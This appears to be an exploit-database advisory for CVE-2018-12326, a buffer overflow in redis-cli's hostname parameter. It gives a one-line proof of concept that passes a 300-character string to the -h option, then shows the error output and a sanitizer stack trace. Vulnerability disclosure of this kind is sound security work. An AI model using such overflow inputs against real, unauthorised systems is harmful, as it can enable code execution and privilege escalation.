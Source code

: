 Exploit Title: Redis-cli Buffer Overflow<br>
Date: 2018-06-13<br>
Exploit Author: Fakhri Zulkifli (@d0lph1n98)<br>
Vendor Homepage: https://redis.io/<br>
Software Link: https://redis.io/download<br>
Version: 5.0, 4.0, 3.2<br>
Fixed on: 5.0, 4.0, 3.2<br>
CVE : CVE-2018-12326<br>
<br>
Buffer overflow in redis-cli of Redis version 3.2, 4.0, and 5.0 allows a local attacker to achieve code execution and escalate to higher privileges via a long string in the hostname parameter.<br>
<br>
$ ./src/redis-cli -h `python -c 'print "A" * 300'`<br>
Could not connect to Redis at AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:6379: Name or service not known<br>
<br>
#0 0x4a4182 in vsnprintf /home/user/llvm/projects/compiler-rt/lib/asan/../sanitizer_common/sanitizer_common_interceptors.inc:1566<br>
#1 0x4a42d0 in snprintf /home/user/llvm/projects/compiler-rt/lib/asan/../sanitizer_common/sanitizer_common_interceptors.inc:1637<br>
#2 0x570159 in repl /home/user/redis/src/redis-cli.c:1624:5<br>
#3 0x55ba77 in main /home/user/redis/src/redis-cli.c:6660:9<br>
#4 0x7f6be5f6e82f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291<br>
#5 0x4247a8 in _start (/home/user/redis/src/redis-cli+0x4247a8)<br>
<br>
References:<br>
1. https://raw.githubusercontent.com/antirez/redis/4.0/00-RELEASENOTES<br>
2. https://raw.githubusercontent.com/antirez/redis/5.0/00-RELEASENOTES<br>
